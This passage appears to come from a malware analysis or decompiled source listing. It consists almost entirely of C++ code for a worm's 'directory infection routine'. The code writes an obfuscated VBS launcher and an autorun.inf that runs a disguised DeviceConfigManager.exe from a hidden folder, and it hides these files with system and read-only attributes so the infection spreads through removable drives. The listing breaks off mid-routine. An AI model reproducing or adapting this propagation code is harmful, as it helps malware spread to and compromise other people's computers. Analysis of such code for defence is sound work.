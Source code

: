 **Implementation Details**:
```cpp
// Directory infection routine - Creates malicious autorun.inf,
// shortcut files, and VBS scripts to spread malware
{
    srand(GetTickCount());
    
    // Initialize file paths
    char target_dir[0x104];
    char hidden_dir[0x104];
    char shortcut_path[0x104];
    char vbs_path[0x104];
    char autorun_path[0x104];
    char payload_path[0x104];
    
    // Generate paths
    sprintf(target_dir, "%s*", arg1);
    sprintf(shortcut_path, "%s\\%s.lnk", arg1, arg2);
    sprintf(autorun_path, "%s\\autorun.inf", arg1);
    sprintf(hidden_dir, "%s\\_", arg1);
    sprintf(payload_path, "%s\\_\\DeviceConfigManager.exe", arg1);
    sprintf(vbs_path, "%s\\DeviceConfigManager.vbs", arg1);

    // Create malicious VBS script with obfuscation
    if (!PathFileExists(vbs_path)) {
        FILE* vbs = fopen(vbs_path, "w");
        if (vbs) {
            // Add random variable declarations and assignments for obfuscation
            for (int i = 0; i < rand() % 50 + 5; i++) {
                fprintf(vbs, "%s = %d\n", generate_random_filename(rand() % 8 + 7), 
                       rand() % 100 + 10);
            }
            
            // Add core malicious code with WScript objects
            fprintf(vbs, "Set WScript = CreateObject(\"WScript.Shell\")\n");
            fprintf(vbs, "Set FSO = CreateObject(\"Scripting.FileSystemObject\")\n");
            
            // Add execution logic
            fprintf(vbs, "If FSO.FolderExists(\"_\") Then\n");
            fprintf(vbs, "    WScript.Run \"_\\DeviceConfigManager.exe\"\n");
            fprintf(vbs, "End If\n");
        }
        SetFileAttributesA(vbs_path, FILE_ATTRIBUTE_HIDDEN | 
                                   FILE_ATTRIBUTE_SYSTEM | 
                                   FILE_ATTRIBUTE_READONLY);
    }

    // Create autorun.inf for removable drive infection
    if (!PathFileExists(autorun_path)) {
        FILE* autorun = fopen(autorun_path, "w");
        if (autorun) {
            fprintf(autorun, "[autorun]\n");
            fprintf(autorun, "icon=%%SystemRoot%%\\system32\\SHELL32.dll\n");
            fprintf(autorun, "open=_\\DeviceConfigManager.exe\n");
            fprintf(autorun, "UseAutoPlay=1\n");
            fclose(autorun);
            SetFileAttributesA(autorun_path, FILE_ATTRIBUTE_HIDDEN | 
                                          FILE_ATTRIBUTE_SYSTEM | 
                                          FILE_ATTRIBUTE_READONLY);
        }
    }

    // Create hidden directory and copy payload
    if (!PathFileExists(hidden_dir)) {
```